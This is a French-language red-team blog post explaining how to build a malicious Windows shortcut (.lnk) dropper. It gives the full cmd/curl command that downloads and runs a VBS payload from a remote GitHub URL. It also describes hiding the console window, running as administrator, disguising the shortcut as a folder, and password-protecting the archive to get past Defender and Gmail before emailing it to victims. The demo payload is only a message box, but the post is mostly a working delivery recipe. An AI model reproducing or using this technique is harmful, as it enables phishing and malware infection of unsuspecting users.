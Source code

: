 ```yaml
---
published: true
layout: post
title: "Exploitation des raccourcis Windows pour exécuter des malwares"
description: "Cet article décrit comment exploiter les raccourcis Windows pour exécuter un malware."
lang: fr_FR
category: redteam,malware,raccourci,dropper
---
```

![Exploitation des raccourcis Windows pour exécuter des malwares](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/illustration.jpg)

# Exploitation des raccourcis Windows pour exécuter des malwares

Sur le système d'exploitation Windows, un raccourci est un petit fichier (de 1 ko à 2 ko) qui redirige vers un autre fichier.
Ils permettent d'ouvrir un fichier directement d'un endroit pratique, sans avoir à spécifier son chemin.
Par exemple pour ouvrir le fichier *C:\Program Files\Mozilla Firefox\firefox.exe* (fichier qui lance le navigateur Firefox), il est beaucoup plus rapide de double-cliquer sur un raccourci **Mozilla Firefox.lnk** (.lnk vient de link en anglais) placé sur le bureau que de s'y rendre via l'Explorateur Windows.
Il est possible de **spécifier un ou des arguments aux raccourcis Windows**. Le raccourci étant un fichier, il est également **possible de le compresser dans un ficher .zip**.

Partant de ce postulat, un attaquant pourrait créer un **raccourci malveillant** dans le but d'exécuter un logiciel malveillant sur l'ordinateur de la victime. L'avantage du raccourci est qu'il est **très léger et peut prendre n'importe quelle extension**.

## Exploitation
Pour commencer, un raccourci va être crée qui exécutera un simple `Hello World` en PowerShell. Pour ce faire, il faut simplement mettre en cible l'exécutable commun à tous les PC : `cmd.exe` :
`C:\Windows\System32\cmd.exe /c "powershell -command "[reflection.assembly]::LoadWithPartialName('System.Windows.Forms')|out-null;[windows.forms.messagebox]::Show('Hello World')""`
L'îcone du raccourci est changé pour le faire ressembler à un dossier, l'extension est également supprimée :

[![Raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/hello_world.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/hello_world.PNG)
*Note : J'ai dans ce scénario d'exploitation crée un raccourci sous forme de dossier mais j'aurais très bien pu également créer un fichier .txt avec l'extension de fichier texte même si les extensions de fichiers connus sont affichés*

L'exécution du raccourci donne alors le résultat suivant :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_hello_world.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_hello_world.PNG)

L'étape suivante est maintenant de personnaliser au maximum l'exécution de l'invité de commande. En effet, les options du raccourci permettent de minimiser la fenêtre au lancement, la rendre transparente, définir une taille de fenêtre...

La configuration de la fenêtre est modifiée :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/taille_fenetre.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/taille_fenetre.PNG)

Les couleurs sont modifiées afin de définir le fond et l'écriture en noir, l'opacité à 30% :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/couleurs.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/couleurs.PNG)

La police d'écriture est réduite au maximum :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/police_ecriture.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/police_ecriture.PNG)

Enfin, la fonctionnalité la plus intéressante est la possibilité d'exécuter le raccourci (l'invité de commande) en tant qu'**administrateur** :
[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/proprietees_avancees.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/proprietees_avancees.PNG)

L'étape suivante est la modification du raccourci pour exécuter un script VBS dont le contenu sera tout simplement un message box pour cet exemple. Je précise que j'exécute un message box car le *dropper* sous forme de raccourci n'a pas pour vocation a évader l'exécutable malveillant de la détection de l'antivirus mais bien d'évader le *dropper* lui même. Le but final est donc l'envoi par mail par exemple pour faire cliquer l'utilisateur.
Voici le contenu du script VBS :

`MsgBox "Je suis un malware écrit en VBS et hébergé sur GitHub"`

L'étape suivante est la création de la charge qui téléchargera le malware VBS ou .exe ou tout autre format. Je précise que j'utilise curl et non PowerShell car même dans un raccourci, PowerShell est détecté par Windows Defender.

Autre point important, la cible du raccourci ne doit pas faire plus de 259 caractères. Petite astuce, il est possible d'optimiser le noms des fichiers pour gagner de la place. Il est également possible d'acheter un nom domaine très court et d'héberger le fichier malveillant à la racine.

Voici le contenu de la charge :

`C:\Windows\System32\cmd.exe /c "curl https://raw.githubusercontent.com/CLeBeRFR/a/main/b.vbs -o %appdata%\b.vbs && %appdata%\b.vbs"`

Le raccourci final donc donc :
[![Création charge raccourci malveillant](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/charge_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/charge_malware.PNG)


## Compression du fichier raccourci malveillant
Le fichier doit maintenant être compressé en ligne de commande. Il n'est pas possible de passer par l'interface graphique car le raccourci pointe vers la CMD et 7Zip compressera donc cmd.exe.
[![Compression du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/compression_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/compression_malware.PNG)

## Extraction du malware par la victime
Une fois que le malware est envoyé, lorsque la victime le décompressera, elle obtiendra tout d'abord un vrai dossier :
[![Décompression du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/extraction_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/extraction_malware.PNG)

Une fois entré dans ce dossier, le vrai raccourci malveillant est présent :
[![Ouverture du dossier malveillant](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/ouverture_dossier.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/ouverture_dossier.PNG)

Le malware est alors téléchargé et exécuté :
[![Exécution du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_malware.PNG)

La victime est alors piégé et la suite dépend du malware exécuté...
Pour terminer, j'ajouterais qu'un attaquant chiffrera probablement le nom des fichiers de l'archive et mettra un mot de passe à l'archive car Gmail par exemple détecte quand même la pièce jointe comme malveillante. Cependant, mettre un mot de passe dans des dossiers envoyés par mail peut paraître légitime pour la victime.
L'archive peut également être envoyée via un service comme [FromSmash](https://fromsmash.com/) ou hebergée sur un site.